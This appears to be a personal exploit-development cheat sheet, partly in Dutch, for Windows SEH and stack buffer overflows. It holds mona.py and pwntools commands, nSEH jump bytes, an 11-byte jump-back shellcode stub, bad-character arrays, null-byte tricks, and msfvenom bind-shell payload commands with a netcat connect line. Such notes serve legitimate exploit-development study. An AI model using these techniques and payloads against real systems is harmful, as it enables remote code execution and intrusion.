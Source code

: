 ## PWNTOOLS
### PWN TOOLS pattern create:
```
cyclic 6000
cyclic -l 0x6D616169
```

## Mona
### pattern_create
```
!mona pc 2500 # lengte van de pattern
Mona pattern_offset
!mona po 42326742 # waarde van EIP
Mona vindt pop pop ret
!mona seh 
!mona seh -cpb '\x00'
Mona egg hunter
!mona egg -t "w00t"
!mona find -type asc -s "w00t"
Jump over nSEH
b"\xeb\x06\x90\x90" # JMP 6 bytes forward

0x00 tot 7F = 0 - 128 vooruit 
0x80 tot FF = 0 - 128 achteruit MAAR ANDERSOM
```
dus 0xFF 1 byte backwards and 0x80 = 128 bytes back


Conditional Jump die altijd waar is over (nSEH)
```
\x75\x08         ; JNZ SHORT [+0x10] = Jump if ZF is not 0
\x74\x06         ; JZ SHORT [+0x8] = Jump if ZF is 0
```

Als je een heel stuk terug wil springen in je buffer kun je de volgende shellcode gebruiken, deze springt 786 bytes terug (let op wel SEH en nSEH er voor uiteraard):
```
"\x59\x59\x59\xfe\xcd\xfe\xcd\xfe\xcd\xff\xe1"   # 11 bytes, pop ecx * 3, dec ch (take 256 from ecx) * 3, jmp ecx
```

The code is shown below, and works based on the fact that after taking the original POP, POP, RETN to jump into the four byte space before the SEH Overwrite, another pointer to the same memory location exists three places down on the stack. We basically get this memory address into the ECX register, decrement the CH register by 1 three times (which has the affect of decreasing ECX by a total of 768 or three times 256 since CH represents the second least significant byte of ECX), and then JUMP to ECX. This moves us back 768 bytes from the location where the original POP, POP, RETN instruction lands, and gives us more than enough space to use most Windows shellcode. At 11 bytes it is also very compact and will fit into very small buffer areas.
```
"\x59\x59\x59\xfe\xcd\xfe\xcd\xfe\xcd\xff\xe1"
```
```
11 bytes
POP ECX \x59
POP ECX \x59
POP ECX \x59
DEC CH \xfe\xcd
DEC CH \xfe\xcd
DEC CH \xfe\xcd
JMP ECX \xff\xe1
```



Bad chars:
```
• 0x00 – is a common string terminator. 
• 0x0a, 0x0d – carriage returns, and line feeds might often be treated as line terminators, especially in software that makes use of HTTP or FTP protocols. 
• 0xff – this byte is often interpreted as EOF (End Of File) .
```

jmp esp zonder mem adres beginnende met 00
```
!mona jmp -r esp -cpb '\x00'
```

“Each time a POP <register> occurs, ESP is moved towards higher addresses by one position (1 position = 4 bytes for a 32-bit architecture). 
 Each time a RET occurs, the contents of the address ESP points at are put in EIP and executed (also ESP is moved, but this is not important here).”

Short jumps
https://thestarman.pcministry.com/asm/2bytejumps.htm

Bind shell
```
msfvenom -p windows/shell_bind_tcp LPORT=12345 -f python -v shellcode -b '\x00' EXITFUNC=thread
nc -vn 127.0.0.1 12345
msfvenom -p windows/shell_bind_tcp LPORT=443 LHOST=192.168.178.31 -f python -v shellcode -b '\x00\x0a\x0d\x20\x25' EXITFUNC=thread
```
  
Mona create bytearray
```
!mona ba -cpb '\x00\x0a\x0d\x20\x25'
  
bad_chars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_chars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
bad_chars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_chars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
bad_chars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_chars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_chars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_chars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
Mona compare
```
!mona compare -f bytearray.bin -a [address where array begins]
!mona compare -f bytearray.bin -a 0180f960
```

 Set a breakpoint on all current SEH Handler function pointers
```
!mona bpseh
```
 
PWN tools
```
from pwn import asm

asm('mov eax, 0') # => '\xb8\x00\x00\x00\x00'
```
 
Truuk voor bijv null byes, wellicht handig
```   
0x00636578 # (\x00cex) 
+ 0x01010101 # Deze tellen er bij op
-------------------------
   0x01646679
```

in assembly dus:
``` 
mov reg, 0x01646676
sub  reg, 0x01010101
push reg # nu staat ie op de stack met de null ;)
```

